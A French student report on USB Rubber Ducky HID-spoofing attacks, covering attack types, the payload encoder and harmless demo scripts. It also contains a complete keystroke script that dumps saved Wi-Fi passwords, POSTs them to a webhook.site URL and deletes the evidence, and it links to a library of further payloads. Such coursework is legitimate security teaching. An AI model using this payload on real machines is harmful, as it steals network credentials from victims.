



**Titre:** Stratégie et démonstration d'attaque par clé USB intelligente

**Etudiant:** Simon Meier

**Professeur:** Marc Schaefer

---

# Résumé

Dans le cadre du cours "Sécurité", une présentation doit être réalisée sur un sujet choisi parmi une liste. Le sujet choisi ici est *Stratégie et démonstration d'attaque par clé USB intelligente*.

La stratégie d'attaque choisie est celle du HID (*Human Interface Device*) spoofing, soit déguiser en clé USB un matériel tout à fait différent pour exécuter des instructions sur un terminal cible.

# Contexte

Les clés USB font partie du quotidien, et sont encore utilisées par une quantité non négligeable de personne. Ainsi tout le monde, petits et grands, savent à quoi ressemble une clé USB malgré tout les modèles différents disponibles sur le marché.

Même si la dangerosité de ces objets est connues depuis longtemps, la plupart des personnes insert malgré tout une clé USB qu'ils ont trouvé quelque part dans un port USB de leur ordinateur personnel comme le démontre cette étude de 2016[^3].

Pire encore, peut-être, est le sentiment de protection que peut fournir un antivirus. Pour une clé USB avec un virus où autre entité néfaste, il est possible que l'antivirus fasse son travail.

Mais est-ce que quelque chose qui ressemble à une clé USB est vraiment une clé USB? D'autres périphériques utilisent les ports USB pour se connecter à un terminal, pas seulement les clés. Est-ce qu'à ce moment là, l'antivirus détecte l'intrusion? Rien n'est moins sûr.

C'est sur cette disonnance que les *USB Rubber Ducky*[^1] appuie leur attaque. En apparence, une clé USB, en réalité un clavier simulé envoyant des instructions à exécuter sur l'ordinateur d'une victime.

C'est sur cette faille que le présent travail s'appuie, en utilisant une de ces clés USB pour lancer une attaque sur un ordinateur ciblé. L'attaque en question n'est pas dans un but destructeur, mais pour observer ce qui est possible d'effectuer par cette brèche.

Un exemple simple et inoffensif, `nggyu.txt`, est implémenté et fourni dans le workspace du projet.

# État de l'art

Cette section introduit l'état de l'art des attaques par clés USB intelligentes, et notamment les stratégies d'attaques:

- Attaque HID
  - HID spoofing
  - WHID attack
- Social engineering
- 0-days

## Attaque HID

L'attaque HID est un scénario dans lequel un attaquant prend une plate-forme de développement intégrée programmable telle que Teensy 3.2[^7] et un progiciel associé tel que Peensy[^9] et crée un périphérique USB.

Lorsque ce périphérique USB est branché dans un ordinateur il exécute un ensemble préconfiguré de frappes pour déposer un `payload` malveillant sur l'ordinateur cible.

Les `payload` réelles qui sont supprimées et exécutées sont hautement configurables et cette approche fonctionne sous *Linux*, *Windows* et *Mac OS X*.

### HID spoofing

Les clés d'usurpation ***HID (Human Interface Device)*** utilisent un matériel spécialisé pour tromper un ordinateur en lui faisant croire que la clé USB est un **clavier**.[^2]

Ce faux clavier injecte des frappes dès que l'appareil est branché sur l'ordinateur. Les frappes écrivent un ensemble de commandes qui compromettent le terminal cible. Par exemple en générant un shell TCP inversé qui donne un contrôle à distance complet sur l'ordinateur des victimes.

|Schéma d'attaque|
|:-:|
||
|Source: elie.net [image source](https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/)|

### Attaque WHID

WHID signifie **WiFi Human Interface Device**[^11]. Le matériel est à peu de chose près le même que celui utilisé pour les clés **HID**, combiné à un module WiFi, comme par exemple *EPS-12s*[^6].

## Social engineering

Utilise une clé USB standard qui contient des fichiers `HTML`. Généralement, il y a une tentative de persuasion sur l'utilisateur pour qu'il transmette son identifiant et son mot de passe par l'intermédiaire d'un formulaire ressemblant à une page connue, puis une récupération des données une fois que l'utilisateur clique.

|Schéma d'attaque|
|:-:|
||
|Source: elie.net [image source](https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/)|

## 0-Days

Le driver zero-day exploite une faille non corrigée du pilote USB : le programme destiné à permettre la bonne utilisation de la clé USB par l’ordinateur. Le programme malveillant exploite le driver pour corrompre la victime au moment où l'on branche la clé.

Par exemple en utilisant un matériel personnalisé qui exploite une vulnérabilité dans un pilote USB pour obtenir le contrôle direct d'un ordinateur dès qu'il est branché.

# Mise en place concrète

Il y a trois parties principales qui viennent avec le *USB Rubber Ducky* pour créer, tester et lancer des instructions.

## Les différentes parties

1. **L'adaptateur "clavier"**:
    Il s'agit d'une petite carte électronique avec un processeur et un emplacement pour insérer la carte microSD. C'est ici que se trouve la configuration du HID, et c'est ce qui envoie les frappes comme si elles provenaient d'un clavier réel.

1. **La carte microSD**:
    Une carte microSD de 128 MB. Elle dispose de suffisamment d'espace pour exécuter la plupart des charges utiles. La seule chose qui doit aller sur la carte est un fichier `inject.bin` dans le répertoire racine. C'est ce que l'adaptateur de clavier utilise pour savoir quelle charge utile envoyer en tant que frappes.

1. **L'adaptateur microSD vers USB**:
    Petit adapteur USB qui se glisse dans un boîtier. Il est utilisé pour monter la carte microSD afin de pouvoir y transférer fichier `inject.bin`.

## Comment utiliser l'encodeur *USB-Rubber-Ducky-master*

Pour commencer il est nécessaire d'installer l'encodeur[^5]. Il s'agit d'un programme qui prend le script `payload` et le convertit en un fichier `inject.bin` multiplateforme que l'adaptateur de clavier utilise.

Il est disponible dans le dossier `archive` du projet. Aussi, le dossier `USB-Rubber-Ducky-master` à la racine du projet contient le `.jar` nécessaire à transformer le `payload` en `inject.bin`.

Le plus simple est d'utiliser le programme java `duckencoder.jar`. Il vous permet de compiler le `payload` et de le copier vers la carte microSD en une seule étape.

Il suffit de lancer la ligne de commande suivante dans le dossier du projet:

```powershell
java -jar duckencoder.jar  -i ../payload.txt -o D:/inject.bin
```

> **Note**:
  Il est possible de lancer la commande depuis n'importe où, mais il est alors nécessaire de changer les chemins.
> Il est aussi nécessaire d'avoir un JRE d'installer[^8].

- `-i` correspond à l'input;
    > comme le fichier `payload.txt` se trouve à la racine, `../` est nécessaire
- `-o` correspond à la sortie, soit `inject.bin`;
- `D:` correspond au disque, soit à la carte MicroSD de 128 MB;
    > il est nécessaire de la connecter par USB via l'adaptateur microSD vers USB.

Après avoir compris quoi utiliser et comment compiler le fichier grâce à l'encodeur, cette étape est finalement très simple et rapide.

Il ne reste plus qu'à implémenter un `payload`.

### Implémentation du `payload`

Des implémentations simples ont été réalisées. Elles implique principalement le lancement de programmes par l'intermédiaire de l'invite de commande. Un `DELAY` est utilisé pour permettre d'observer les différentes étapes du script.

#### Résultats

**Exemple 1**:
Le premier script ci-dessous ouvre un invite de commande et lance `notepad.exe` pour écrire un simple texte toutes les 50 millisecondes.

|Run 1|
|:-:|
||

```powershell
DELAY 1000
GUI r
DELAY 100
ENTER
DELAY 500
STRING notepad.exe
DELAY 500
ENTER

DELAY 100
STRING s
DELAY 50
STRING h
DELAY 50
STRING e
DELAY 50
STRING e
DELAY 50
STRING s
DELAY 50
STRING h
```

**Exemple 2**:
Le deuxième script ci-dessous ouvre un invite de commande et lance `msedge.exe` avec un lien youtube sur la célèbre musique *"Never gonna give you up"*, puis ouvre `notepad.exe` pour écrire deux lignes de texte.

```powershell
DELAY 1500
GUI r
DELAY 200
STRING msedge.exe https://www.youtube.com/watch?v=dQw4w9WgXcQ
ENTER
DELAY 200
GUI r
STRING cmd
ENTER
STRING notepad.exe
ENTER
STRING never gonna give
DELAY 50
ENTER
STRING never gonna give
DELAY 50
CTRL S
DELAY 50
STRING never
ENTER
```

|Run 2|
|:-:|
||

Ces exemples sont simples dans une volonté de montrer de petites opérations inoffensives.

En revanche, ils démontrent le potentiel d'attaque de cette technologie. D'autres scripts plus dangereux sont libres d'être utilisés en suivant ce [lien](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library)[^10].

Typiquement, voici un exemple permettant de prendre les mots de passe du WiFi d'une machine et les envoyer à un serveur distant par la méthode POST.

```powershell
DELAY 3000
GUI r
DELAY 100
STRING cmd /k
ENTER
DELAY 500
STRING cd %temp%
ENTER
DELAY 500
STRING netsh wlan export profile key=clear
ENTER
DELAY 1000
ENTER
STRING powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > WiFi-PASS
ENTER
DELAY 1000
STRING powershell Invoke-WebRequest -Uri https://webhook.site/URL -Method POST -InFile WiFi-PASS
ENTER
DELAY 1000
STRING del WiFi* /s /f /q
ENTER
DELAY 100
STRING exit
ENTER
```

# Conclusion

Par l'utilisation de la clé d'usurpation *USB Rubber Ducky*, il a été possible de lancer des `payloads` après une simple connexion du matériel.

Un test a été effectué avec l'ordinateur de l'école, et rien n'a été détecté concernant un inhabituel comportement du PC, même avec des `payloads` sans délai entre les commandes.

La mise en place une fois avoir compris comment fonctionnait l'encodeur est si simple que cela soulève une grande inquiétude. En sachant que ce matériel est accessible à tous et que sa fabrication ne demande que très peu de ressources, il est quasiment impossible de se protéger contre une attaque de ce genre actuellement. Il suffit de laisser son ordinateur sans surveillance et c'est déjà potentiellement trop tard.

En revanche, ce genre d'attaque souffre d'une chose assez simple. L'encodage se fait selon un type de clavier, mais pas celui utilisant les propriétés du système cible. Typiquement, le mot *youtube* dans le script implémenté s'écrit *zoutube* sur les claviers suisses, car la langue par défaut est l'anglais et que les claviers anglais ont la disposition *QWERTY*, ainsi lorsqu'il veut appuyer sur *Z* il appuie sur *Y* et inversément. Cela implique que les caractères des scripts écrits vont dépendre du clavier sur lesquels ils vont être utilisés. Ainsi, il est tout à fait possible que sans test, le script ne fonctionne pas où fasse quelque chose d'innatendu.

# Bibliographie

[1] Bruno Camus, Rapports de stages et mémoires, Les éditions d'organisation, 1989. (Bibliothèque ENSPS : 808.06 CAM)

[2] Règles typographiques en usage à l'Imprimerie nationale, Imprimerie nationale, troisième édition, 1994.

[3] [Eisvogel](https://github.com/Wandmalfarbe/pandoc-latex-template), Latex template, Copyright (c) 2017 - 2021, Pascal Wagler, 2014 - 2021, John MacFarlane, open source licensed under the BSD 3-Clause License.

[4] Honeywell Forge, ATLANTA, June 22, 2021, [Honeywell USB Threat Report](https://www.honeywellforge.ai/us/en/press-release/honeywell-cybersecurity-research-reports-significant-increase-in-usb-threats-that-can-cause-costly-business-disruptions)

[5] elie.net, Elie Bursztein, Date August 2016, [What are malicious usb keys and how to create a realistic one?](https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/)

[6] Wikipedia®,  Wikimedia Foundation, Inc., 25 avril 2022, [Sécurité des lien USB](https://fr.wikipedia.org/wiki/Sécurité_des_liens_USB)

[7] hak5darren, 19 décembre 2016, github, [USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)

[8]: May 1, 2017  By Pierluigi Paganini, [WHID Injector: How to Bring HID Attacks to the Next Level](https://securityaffairs.co/wordpress/58587/hacking/whid-injector-bring-hid-attacks.html#:~:text=WHID%20stands%20for%20WiFi%20HID,HID%20Attacks%2C%20during%20their%20engagements.)

[^1]: hak5darren, github [USB Rubber Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)

[^2]: elie.net, Elie Bursztein, [What are malicious usb keys and how to create a realistic one?](https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/)

[^3]: elie.net, Elie Bursztein, [Concerns about usb security are real](https://elie.net/blog/security/concerns-about-usb-security-are-real-48-percent-of-people-do-plug-in-usb-drives-found-in-parking-lots/)

[^4]: May 1, 2017  By Pierluigi Paganini, [WHID Injector: How to Bring HID Attacks to the Next Level](https://securityaffairs.co/wordpress/58587/hacking/whid-injector-bring-hid-attacks.html#:~:text=WHID%20stands%20for%20WiFi%20HID,HID%20Attacks%2C%20during%20their%20engagements.)

[^5]: hak5darren, 19 décembre 2016, github, [USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)

[^6]: Waveshare, Ai-Thinker, [ESP-12s Module WiFi](https://www.waveshare.com/esp-12s.htm)

[^7]: Teensy 3.2 [pjrc](https://www.pjrc.com/store/teensy32.html)

[^8]: installation de Java [Java JRE](https://www.java.com/fr/download/manual.jsp)

[^9]: Lucas Bongiorni, github, [Teensy Penetration Testing Payload](https://github.com/LucaBongiorni/peensy)

[^10]: Payloads library, github, [hak5 payloads library](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library)

[^11]: WiFiDuck, github [WiFiDuck](https://github.com/SpacehuhnTech/WiFiDuck)